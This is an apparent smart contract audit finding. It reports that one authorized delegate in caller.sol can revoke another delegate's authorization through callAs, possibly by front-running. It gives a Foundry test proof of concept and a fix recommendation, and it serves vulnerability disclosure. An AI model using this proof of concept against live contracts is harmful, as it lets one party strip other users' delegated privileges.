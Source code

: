 ### Impact

The caller.sol adds a functionality for a user to authorize other users to make a call on behalf on them. This is done by calling the `authorize` function from the user who want’s to authorize other users with the address of the user they want to authorize as the parameter to the function.

Let’s say a user wants to authorize 2 users A and B to make calls on behalf of them. Both the users should be at same priviledge level and user A should not be able to unauthorize user B from its priviledge. 

This vulnerability allows user A to perfrom such actions and unauthorize user B. This can also be used to unauthorize by front-running a legit transaction of user B. 

> Note: I’ve asked the team, and they consider this is not an issue, that’s why I am reported it as QA as it still feels like a priviledge issue to me and I am keeping this open to discussion.
> 

### POC

Add the following lines in `AddressDriver.t.sol`

```solidity
address internal user2 = address(1337);

function testCanunauthorizeotherusers() public {
        vm.prank(user);
        caller.authorize(address(this));
        vm.prank(user);
        caller.authorize(user2);

        bool resultfirst = caller.isAuthorized(user, user2);
        assertTrue(resultfirst, "is unauthorized");

        bytes memory callData = abi.encodeWithSelector(caller.unauthorize.selector, user2);
        caller.callAs(user, address(caller), callData);

        bool resultsecond = caller.isAuthorized(user, user2);
        assertFalse(resultsecond, "is authorized");
    }
```

### Recommendation

Only allow necessary functions to be called by authorized users.